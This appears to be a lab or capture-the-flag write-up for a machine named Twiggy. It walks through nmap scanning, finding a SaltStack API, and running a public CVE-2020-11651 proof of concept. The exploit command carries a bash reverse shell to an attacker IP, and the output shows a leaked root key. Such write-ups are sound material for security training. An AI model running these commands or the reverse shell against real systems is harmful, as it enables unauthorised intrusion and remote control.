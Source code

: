 # Twiggy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.62
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:10 +08
Nmap scan report for 192.168.219.62
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

Did a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,53,80,4505,4506,8000 -sC -sV --min-rate 3000 192.168.219.62      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:11 +08
Nmap scan report for 192.168.219.62
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

### Salt API --> RCE

Port 8000 looked the most interesting since it was only returning JSON data. Visiting it just shows a few 'clients':

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

When we view the headers, we can see that this is using a program called Salt API:

<figure><img src="../../../.gitbook/assets/image (23) (4).png" alt=""><figcaption></figcaption></figure>

There are some exploits for Salt here:

```
$ searchsploit salt    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Oracle MySQL / MariaDB - Insecure Salt Generation Security | linux/remote/38109.pl
SaltOS - 'download.php' Cross-Site Scripting               | php/webapps/37642.txt
SaltOS Erp Crm 3.1 r8126 - Database File Download          | php/webapps/45734.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection                   | php/webapps/45731.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection (2)               | php/webapps/45733.txt
Saltstack 3000.1 - Remote Code Execution                   | multiple/remote/48421.txt
----------------------------------------------------------- ---------------------------------
```

The last one looks like the most reliable, and it works:

```
$ python3 poc.py --master 192.168.219.62 --exec 'bash -i >& /dev/tcp/192.168.45.182/80 0>&1'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.219.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: EhN8Uknfm4lWhieX13oN5C+NiHo63BzPifodAAOygyu3DL3ZUnCX4BEV9cvD/zT4NfCHQ22Hq7s=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.182/80 0>&1 on 192.168.219.62
[+] Successfully scheduled job: 20230705031527947368
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
